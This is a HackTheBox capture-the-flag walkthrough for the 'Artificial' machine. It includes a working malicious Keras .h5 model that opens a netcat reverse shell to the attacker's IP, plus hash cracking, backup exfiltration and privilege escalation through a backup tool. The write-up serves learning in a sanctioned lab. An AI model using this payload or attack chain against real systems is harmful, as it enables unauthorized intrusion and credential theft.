





# HackTheBox: Artificial

# ===================================

## Reconnaissance

### Port Scan

```bash
rustscan -a 10.10.11.74 -- -A | tee rustscan.log
Open 10.10.11.74:22
Open 10.10.11.74:80
```

### Identify Target and Add to Hosts File

```bash
URL: http://10.10.11.74
```

Upon visiting the IP in a browser, we are redirected to:

```
http://artificial.htb
```

We then add this domain to our `/etc/hosts` file:

```bash
sudo nano /etc/hosts
10.10.11.74 artificial.htb
```

### Web Enumeration

We observe login and registration pages:

- [http://artificial.htb/login](http://artificial.htb/login)
- [http://artificial.htb/register](http://artificial.htb/register)

We also see some text:

> Artificial is a platform that lets you easily build, test, and deploy AI models to solve real-world problems like sales forecasting.
> 

This hints at possible model upload functionality. Let’s enumerate further.

### Directory Scan Using ffuf

```bash
ffuf -u http://artificial.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

Relevant results:

```
/login         [Status: 200]
/register      [Status: 200]
/logout        [Status: 302]
/dashboard     [Status: 302]
```

## Initial Access

### Registration

Register a new user account at: `/register`



### Login

Login using the credentials at:  `/login`


### Exploit: Malicious .h5 Upload

We noticed AI model uploads, so we craft a malicious `.h5` file using Python.

Replace 10.10.14.93 with your ip.

Also, I jumped the gun here and created the file with python.

But you could have just used the dockerfile.

For the sake of the writeup, I’m going to show the method that I used to keep it authentic:

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.93 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Install necessary dependencies via `requirements.txt`, then run:

```bash
python3 exploit.py
```

Upload `exploit.h5`:


### Listener

Set up a listener:

```bash
nc -lvnp 6666
```

### Trigger Shell

click on view predictions:


We receive a shell.

### Get TTY

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
[Ctrl+Z]
stty raw -echo; fg
export TERM=xterm
```

## Post Exploitation

### Enumerate .db files

```bash
find / -name "*.db*" 2>/dev/null
sqlite3 /home/app/app/instance/users.db
```

Tables:

```sql
.tables
SELECT * FROM user;
```

Example result:

```
1|gael|gael@artificial.htb|HASH
6|whoameye|whoameye@gmail.com|5f4dcc3b5aa765d61d8327deb882cf99
```

We recognize the hash for user `whoameye` as `password`.

### Enumerate System Users

```bash
cat /etc/passwd
```

Identify `gael` as a valid user. Crack hash using CrackStation.

Login as Gael:

```bash
su - gael
```

Then read:

```bash
cat ~/user.txt
```

User has been pwned.

### Confirm we are not on host machine

```bash
gael@artificial:~$ hostname
artificial

cat /etc/hosts

127.0.0.1 localhost
127.0.1.1 artificial artificial.htb

find / -name container 2>/dev/null
/sys/devices/system/container
/sys/bus/container
```

Based on the hostname and presence of `/sys/devices/system/container`, we’re likely inside a container, not on the host.

To confirm and pivot, we log into the host at `10.10.11.74` as `gael`:

```bash
ssh gael@10.10.11.74
```

## Host Enumeration

### Search for Backups

```bash
find / -name "backups" 2>/dev/null
cd /var/backups
ls -la
```

Identify: `backrest_backup.tar.gz`

### Exfiltrate Backup

```bash
python3 -m http.server 8000
```

Then from attacking machine:

```bash
wget http://artificial.htb:8000/backrest_backup.tar.gz
tar -xvf backrest_backup.tar.gz
```

### Inside `backrest/`

```bash
cd backrest/.config/backrest
cat config.json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "HASH"
      }
    ]
  }
}

```

We find a bcrypt hash for `backrest_root`. Decode then crack:

```bash
echo <hash> | base64 -d > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

## Localhost Services

```bash
netstat -tulnp
```

Port `127.0.0.1:9898` is open.

### SSH Port Forward

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

Navigate to:

```
http://127.0.0.1:9898/
```

Login with `backrest_root` and cracked password.

## Privilege Escalation

### Add Repo and Run Backup

Use UI to add repo and run commands:

- `help`
    
    
    
- `backup /root`
    
    
    

A snapshot ID is returned.

### List Snapshot Files



### Then Dump

```bash
dump <snapshot_id> /root/root.txt
```

System has been pwned.



## Final notes

That wraps up my first writeup for HackTheBox.

Hope the writeup was helpful and you were able to learn something new.

Happy hacking, whoameye

# ===================================
